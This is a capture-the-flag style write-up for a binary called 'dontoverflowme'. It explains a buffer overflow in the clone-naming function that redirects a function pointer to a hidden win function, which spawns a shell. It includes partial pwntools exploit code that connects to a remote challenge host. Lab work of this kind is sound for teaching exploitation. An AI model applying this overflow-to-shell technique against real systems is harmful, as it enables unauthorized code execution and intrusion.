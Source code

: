 # dontoverflowme

## Overview
The target binary `dontoverflowme` provides various functions to create, view, name, and kill "clones" and includes a hidden `win` function. Our goal is to exploit the program to execute the `win` function, which eventually calls `execve("/bin/sh")`, giving us a shell.

### Target Functions

1. **`win` Function**: Located at `0x004016b9`. When executed, it displays a success message and spawns a shell with `execve("/bin/sh")`.
2. **`givehint` Function**: Prompts the user for clone actions, providing hints about usage. We can exploit this to overwrite clone data and redirect execution to `win`.
3. **`main` Function**: Displays a menu and calls the relevant function based on user input.

### Vulnerability
The vulnerability lies in the `name_clone` function. It allows us to enter a name for the clone but doesn’t adequately restrict the input length, leading to a buffer overflow. We can overwrite a function pointer or a critical variable to redirect execution.

## Exploit Strategy
Our approach leverages the overflow in `name_clone` to overwrite the function pointer that `givehint` will execute. By setting this pointer to the `win` function's address, we can hijack control flow and execute `win`.

## Attack Code

Here’s the Python exploit code using `pwntools`:

```
python
from pwn import *

context.arch = 'amd64'
win_addr = 0x004016b9  # Address of win function

if args.R:
    p = remote('6447.lol', 8001)
elif args.H:
    p = process('./dontoverflowme')
else:
    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
    p = gdb.debug('./dontoverflowme',
                  gdbscript='''
                      b *givehint
                      c
                  ''')

# Functions to interact with the binary
def create_clone(clone_id, name):
    p.sendlineafter(b'Choice: ', b'A')
    p.sendlineafter(b'Clone ID: ', str(clone_id).encode())
    p.sendlineafter(b'Enter Name (max length 8): ', name)

def view_clone(clone_id):
    p.sendlineafter(b'Choice: ', b'D')
    p.sendlineafter(b'Clone ID: ', str(clone_id).encode())

def kill_clone(clone_id):
    p.sendlineafter(b'Choice: ', b'B')
    p.sendlineafter(b'Clone ID: ', str(clone_id).encode())
```